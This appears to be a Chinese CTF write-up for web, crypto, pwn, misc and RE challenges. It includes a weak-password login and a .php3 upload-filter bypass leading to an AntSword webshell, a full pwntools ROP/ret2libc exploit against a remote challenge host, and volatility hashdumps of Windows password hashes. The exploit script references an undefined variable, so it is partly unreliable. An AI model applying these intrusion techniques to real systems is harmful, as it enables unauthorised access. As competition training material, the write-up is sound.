




# WEB

### 题目名字不重要反正题挺简单的
直接传参file=phpinfo，flag被写到环境变量



## NewWebsite

扫描目录扫到/admin



访问后弱密码admin/admin登录

发现有?r=manageinfo页面可以上传文件，但文件名被限制，传php3即可绕过，然后antsword连接




# CPYPTO

### 古典美++

题目说是维吉尼亚密码，直接爆破密钥即可




# pwn

### pwn_printf

栈溢出，通过puts泄露函数地址，计算偏移量得到system函数地址来get shell

exp如下：

```python
from pwn import *
context.log_level = 'debug'
p = remote('47.111.104.169',56706)
elf = ELF('./pwn_printf')
puts_plt = elf.symbols['puts']
puts_got = elf.got['puts']
pop_rdi_ret = 0x0000000000401213
pop_rsi_ret = 0x000401211
ret_addr = 0x4007C6
scanf = 0x004006A0

p.recvuntil("interesting")
for i in range(16):
	p.sendline("32")

payload1 = 'a'*0x8 + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(pop_rdi_ret) + p64(0x40) + p64(ret_addr)
p.sendline(payload1)
p.recvline()

puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
print (hex(puts_addr))

payload2 = 'a'*0x8 + p64(pop_rdi_ret) + p64(0x0401D99) +p64(pop_rsi_ret) +p64(0x06030A0)+p64(0)+ p64(scanf) + p64(pop_rdi_ret) + p64(0x20)+ p64(ret_addr+1)
p.recv()
str1 = int(b'/bin'[::-1].encode('hex'),16)
str2 = int(b'/sh\x00'[::-1].encode('hex'),16)

p.sendline(payload2)
sleep(0.5)
p.sendline(str(str2))
sleep(0.5)

payload3 = 'a' * 0x8 + p64(pop_rdi_ret) + p64(0x0401D99) + p64(pop_rsi_ret) + p64(0x06030A4) + p64(0) + p64(scanf) + p64(ret_addr)
p.send(payload3)
p.sendline(str(n2))

payload4 = 'a' * 0x8 + p64(pop_rdi_ret) + p64(0x06030A0) + p64(puts_addr-0x2a300)
sleep(0.5)
p.sendline(payload4)
p.interactive()

```


# MISC

## 颜文字之谜

通过流量分析可以导出index-demo.html
在源码中发现颜文字


开始以为是颜文字编码，后来发现有base64隐写，用stegsnow可以输出flag样式

base64隐写脚本
```
b64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
with open('C:/Users/kai/Desktop/base.txt', 'rb') as f:
    bin_str = ''
    for line in f.readlines():
        stegb64 = ''.join(line.split())
        rowb64 =  ''.join(stegb64.decode('base64').encode('base64').split())
        offset = abs(b64chars.index(stegb64.replace('=','')[-1])-b64chars.index(rowb64.replace('=','')[-1]))
        equalnum = stegb64.count('=') #no equalnum no offset
        if equalnum:
            bin_str += bin(offset)[2:].zfill(equalnum * 2)
        print ''.join([chr(int(bin_str[i:i + 8], 2)) for i in xrange(0, len(bin_str), 8)])
```

结果是key:"lorrie"

输出内容猜测是摩斯密码，解码后得到flag


## passwd

是一道内存取证题

```
python vol.py -f ./my_mem/passwd.raw --profile=Win7SP1x86_23418 hashdump
```

> Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
> Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
> CTF:1000:aad3b435b51404eeaad3b435b51404ee:0a640404b5c386ab12092587fe19cd02:::

CTF密码解码出来是qwer1234，然后MD5就是flag

## 虚实之间

明文攻击，爆出压缩包密码
```123%asd!O```
然后栅栏密码解码得到flag

## 隐藏的秘密

用diskgenius打开可以看到


```
volatility -f 1.vmem --profile=Win2003SP1x86 --profile=系统版本 printkey -K "SAM\Domains\Account\Users\Names"
```

于是导出用户名和密码，批量解MD5，最后尝试密码为```NIAIWOMA```的账户和密码MD5
是flag


## RE

### easy_c++

简单异或直接脚本跑
```
a="7d21e<e3<:3;9;ji t r#w\"$*{*+*$|,"
b=""
for i in range(len(a)):
    b+=chr(ord(a[i])^i)
print(b)
```

### easyre

动态调试，一位一位爆出来

### ReMe

```
import hashlib

list = [
 'e5438e78ec1de10a2693f9cffb930d23',
 '08e8e8855af8ea652df54845d21b9d67',
 'a905095f0d801abd5865d649a646b397',
 'bac8510b0902185146c838cdf8ead8e0',
 'f26f009a6dc171e0ca7a4a770fecd326',
 'cffd0b9d37e7187483dc8dd19f4a8fa8',
 '4cb467175ab6763a9867b9ed694a2780',
 '8e50684ac9ef90dfdc6b2e75f2e23741',
 'cffd0b9d37e7187483dc8dd19f4a8fa8',
 'fd311e9877c3db59027597352999e91f',
 '49733de19d912d4ad559736b1ae418a7',
 '7fb523b42413495cc4e610456d1f1c84',
 '8e50684ac9ef90dfdc6b2e75f2e23741',
 'acb465dc618e6754de2193bf0410aafe',
 'bc52c927138231e29e0b05419e741902',
 '515b7eceeb8f22b53575afec4123e878',
 '451660d67c64da6de6fadc66079e1d8a',
 '8e50684ac9ef90dfdc6b2e75f2e23741',
 'fe86104ce1853cb140b7ec0412d93837',
 'acb465dc618e6754de2193bf0410aafe',
 'c2bab7ea31577b955e2c2cac680fb2f4',
 '8e50684ac9ef90dfdc6b2e75f2e23741',
 'f077b3a47c09b44d7077877a5aff3699',
 '620741f57e7fafe43216d6aa51666f1d',
 '9e3b206e50925792c3234036de6a25ab',
 '49733de19d912d4ad559736b1ae418a7',
 '874992ac91866ce1430687aa9f7121fc'
 ]

def decode(n):
    result = []
    while n != 1:
        if n%2:
            n=n*3+1
        else:
            n=n//2
        result.append(n)
    return result

if __name__ == "__main__":
    for i in range(33,128):
        result = decode(i)
        string = ''
        for x in range(len(result)):
            string += str(result[x])
            string += str(result[(len(result) - x - 1)])
        md5 = hashlib.md5()
        md5.update(string.encode())
        md5 = md5.hexdigest()
        for line in range(27):
            if md5 == list[line]:
                print line,'->',chr(i)
```
然后按顺序排序MD5即可

